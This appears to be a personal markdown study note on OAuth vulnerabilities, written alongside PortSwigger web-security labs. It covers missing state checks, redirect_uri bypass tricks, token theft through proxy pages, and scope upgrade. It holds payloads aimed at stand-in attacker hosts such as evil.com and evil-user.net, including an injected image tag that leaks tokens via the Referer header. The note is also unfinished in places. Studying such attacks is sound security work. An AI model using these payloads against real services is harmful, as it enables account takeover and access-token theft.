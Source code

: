 https://portswigger.net/research/hidden-oauth-attack-vectors

## Flawed [[CSRF]] protection
`state` parameter should ideally contain an unguessable value, such as the of something tied to user's session when it first initiatees the OAuth flow. The value is then passed back and forth between the client and OAuth server as form of CSRF token. If `state` is omitted, it's possible to hijack a victim's account by binding it to the attacker social media.
lab is broken:  https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking
#to-be-continued 

# Leaking authorization codes and access **tokens**
Send `/callback` URL with  tampered `redirect_uri=attacker-server.evil/` to hijack access token.
# Flawed redirect_uri validation
Ways to bypass `redirect_uri` validation:
1. Try removing aor adding arbitrary path, query params, and fragments
2. If you can append extra values to the default `redirect_uri`, you might be able to exploit [[URL discrepancies]] between the parsing of the URI by the different components of the OAut service. E.g.
```
https://default-host.com &@foo.evil-user.net#@bar.evil-user.net
```
3. Server-side parameter pollution, .e.g
```
https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
```
4. URL starting with `localhost` might be available since it's used for development, e.g. `http://localhost.evil.com`
5. Experiment with `response_mode` setting from `query`  to `fragment` can alter the parsing. If `web_message` response mode is supported, this can enlarge list of allowed domains.

# Stealing codes and access tokens via a proxy page
Look for vulnerabilities that allow you to extract the code or token and send it to external domain.
1. Path traversal e.g. `https://client-app.com/oauth/callback/../../example/path`
2. Open redirects
3. Dangerous JS that handles query params and URL fragments
4. XSS vulnerabilities
5. HTML injection vulnerabilities. Example: inject `<img src="evil.com" />` into a page you can specify within `redirect_uri` and receive access token via `Referer` and receive access token via `Referer`.
#to-be-continued https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page

# Flawed scope validation
#### Scope upgrade: authorization code flow
```http
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```
If the server does not validate this against the scope from the initial authorization request, it will sometimes generate an access token using the new scope and send this to the attacker's client application:
```json
{
    "access_token": "z0y9x8w7v6u5",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid email profile",
    …
}
```
#### Scope upgrade: implicit flow
Once they have stolen an access token, they can send a normal browser-based request to the OAuth service's `/userinfo` endpoint, manually adding a new `scope` parameter in the process. In case of the server doesn't validate `scope` against the that was used when genrating the token.

### Unverified user registration
Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases.

